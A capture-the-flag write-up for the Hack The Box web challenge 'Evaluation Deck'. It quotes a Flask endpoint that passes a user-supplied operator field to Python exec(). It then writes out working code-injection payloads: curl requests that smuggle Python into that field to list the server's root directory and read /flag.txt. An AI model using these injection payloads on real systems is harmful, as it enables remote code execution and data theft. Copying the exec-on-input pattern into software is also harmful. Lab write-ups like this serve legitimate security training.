 # Evaluation Deck

## The Problem

Rating: easy

Flavor Text:
```
A powerful demon has sent one of his ghost generals into our world to ruin the fun of Halloween. The ghost can only be defeated by luck. Are you lucky enough to draw the right cards to defeat him and save this Halloween?
```

Attachments : [web_evaluation_deck.zip](./web_evaluation_deck.zip)



## Solution

ui.js looks to set card powers randomly and set the cards as not flipped

when you flip a card the post checks the health of the enemy
http://142.93.39.188:31468/api/get_health

{
  "current_health": "100",
  "attack_power": "54",
  "operator": "+"
}

if the operator is - the health of the enemy dropps and the api returns the health {"message":55}



curl 'http://142.93.39.188:31468/api/get_health' -H 'Content-Type: application/json' --data-raw '{"current_health":"100","attack_power":"45","operator":"-"}' 



```
const calculate_health = (power, operator) => {
   fetch('/api/get_health',{
      method:'POST',
      headers: {
         'Content-Type': 'application/json'
      },
      body: JSON.stringify({ 'current_health': health.toString(), 'attack_power': power, 'operator': operator })
   })
   .then((data) => data.json())
   .then((response) => {
      if(Number(response.message) <= 0) updateHealth(-100)
      if(operator === '-') {
         document.getElementById("addicon").classList.toggle('incorrect');
         updateHealth(Number(`-${response.message}`))
         setTimeout(() => {
            document.getElementById("addicon").classList.toggle('incorrect');
        }, 500)
      }
      if(operator === '+') {
         document.getElementById("addicon").classList.toggle('correct');
         updateHealth(Number(response.message))
         setTimeout(() => {
            document.getElementById("addicon").classList.toggle('correct');
        }, 500)
      }
      document.getElementById("flipleft").textContent = `Flip left: ${total_tries - 1}`
      total_tries -= 1
   })
}

```



![apicalls.png](apicalls.png)

so getting it to negative doesn't do anything and may just be a math response.

the sourcecode is provided so lets review the api as the likely target for exploit

the first part does validation and setup
```
@api.route('/get_health', methods=['POST'])
def count():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()

    current_health = data.get('current_health')
    attack_power = data.get('attack_power')
    operator = data.get('operator')
    
    if not current_health or not attack_power or not operator:
        return response('All fields are required!'), 400

    result = {}
    try:

```


we want the calculation part:
```
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
        exec(code, result)
        return response(result.get('result'))
```

ok so this is for sure it. the exec code part means its running local commands and providing the response output. the int changes the values of the health and attack power to integers 

curl 'http://142.93.39.188:31468/api/get_health' -H 'Content-Type: application/json' --data-raw '{"current_health":"100","attack_power":"45","operator":"-"}'


I open up a cmd line python environment and play with some test code to work out how to alter the code


so result = can be reset by including it in the operator field 

curl 'http://142.93.39.188:31468/api/get_health' -H 'Content-Type: application/json' --data-raw '{"current_health":"0","attack_power":"0","operator":"- 10\nresult = dir() #"}'

![poc.png](poc.png)

curl 'http://142.93.39.188:31468/api/get_health' -H 'Content-Type: application/json' --data-raw '{"current_health":"0","attack_power":"0","operator":"- 10\nresult = dir() #"}'

```
{
  "current_health": "0",
  "attack_power": "0",
  "operator": "\nimport os\nresult = os.listdir('/')\n#"
}
```
{
    "message": [
        "lib",
        "var",
        "proc",
        "usr",
        "dev",
        "bin",
        "media",
        "opt",
        "root",
        "mnt",
        "sbin",
        "etc",
        "sys",
        "run",
        "srv",
        "tmp",
        "home",
        "app",
        "flag.txt"
    ]
}


```
{
  "current_health": "0",
  "attack_power": "0",
  "operator": "\nimport os\nflag = open(r'/flag.txt', 'r')\nresult = flag.read()\n#"
}
```




## Flag
```{
    "message": "HTB{c0d3_1nj3ct10ns_4r3_Gr3at!!}"
}

```

## Final Notes
